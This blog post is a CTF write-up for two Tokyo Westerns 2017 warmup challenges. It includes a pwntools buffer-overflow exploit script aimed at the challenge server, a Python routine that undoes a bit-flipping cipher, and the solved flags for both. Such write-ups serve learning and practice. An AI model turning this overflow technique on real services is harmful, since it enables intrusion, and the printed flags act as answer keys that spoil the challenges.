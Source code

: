 ```yaml
---
layout: post
title:  "Radare2 and Tokyo Western CTF: just\_do\_it, Rev Rev Rev"
date:   2017-8-3 19:20:00 -0400
categories: update post exploitation reverse-engineering
---
```


<h1>Introduction</h1>

I had fun in, but hadn't done well in the Tokyo Westerns CTF that has just passed. I'm still waiting myself for some better writeups to some of the more interesting challenges to get posted. But here's my writeup of two warmup challenges.

<h1>just_do_it</h1>

<img title="r2 - Graph of input handling" src="/pics/TakingTheInputJustDoIt.png">

This challenge was a very straightforward buffer overflow. The buffer that's written into has only 0x10 bytes of space al located to it, but 0x20 is passed in as a size for fgets.  Overflow, the buffer until the dword 0xc bytes below the ebp register is overflown. You can then write into the variable any address to be called by puts here.

<img src="/pics/OverflowJustDoIt.png">

Point it at the static address the flag is loaded into (either 0x0804a07f or 0x0804a080, depending on whether you ask radare2 or GDB), and we can then get the flag.

{% highlight Python %}

from pwn import *

e = ELF('./just_do_it')
#p = process('./just_do_it')

start = 0x0804a07f

'''
May have been off by a byte, but I was too lazy to be precise.
flag:TWCTF{pwnable_warmup_I_did_it!}
'''

#Don't need to let it keep running after getting the flag.
for i in range(0,100):
    p = remote("pwn1.chal.ctf.westerns.tokyo", 12345)
    p.send(cyclic(length=0x14, n=4)+pack(start+i) + '\n')
    print p.recv()

{% endhighlight %}

<h1>Rev Rev Rev</h1>

So, there's essentially 3 key functions to look at. Radare2 lists them as sub.strlen_6db, fcn.08048738, and fcn.080487b2.

<img src="/pics/RevRevRev.png">

The strlen-named function simply performs a strrev() on the input string. 

The function located at 0x08048738 performs three different pairwise flips on each character following.

<img src="/pics/PairwiseFlips.png">

What the first effectively does is take every two consecutive bits in a character, and swap them. And then the second takes consecutive groups of 2 bits and swaps them. And the third takes both pairs of 4 bits within the byte to swap them.

The last function at 0x084087b2 simply performs a NOT operation on each character to flip every bit inside. 

Lastly, the encrypted flag can be found within Radare2 by seeking to the location its pointer is stored (s 0x804a038), and then seeking to the address found there.

<img src="/pics/EncryptedFlagRevRevRev.png">

After copying the bytes into Python, unencryption can be done by redoing each function in reverse.

{% highlight Python %}
from pwn import *

flag_hidden = pack(0x65d92941) + pack(0xc9e1f1a1) + pack(0x13930919) + pack(0x49b909a1) + pack(0x61dd89b9) + pack(0xf1a16931) + pack(0xd59d2171) + pack(0x00d5153d)

flag_hidden = flag_hidden[:-1] #don't want to operate on null byte.

def pair_flip(c):
    return ( ((c & 0x55) << 1) | ((c >> 1) & 0x55) ) & 0xff

def double_flip(c):    return ( ((c &0x33) << 2) | ((c >> 2) & 0x33) ) & 0xff

def quad_flip(c):
    return ((c << 4) | (c >> 4)) &0xff


flag = ""

for b in list(flag_hidden):
    xor_chr = ord(b) ^ 0xff #Undo NOT
    q_chr = quad_flip(xor_chr)
    d_chr = double_flip(q_chr)
    p_chr = pair_flip(d_chr)
    flag += chr(p_chr)

#There's no joke in the flag. :/
print "flag:" + flag[::-1]

{% endhighlight %}
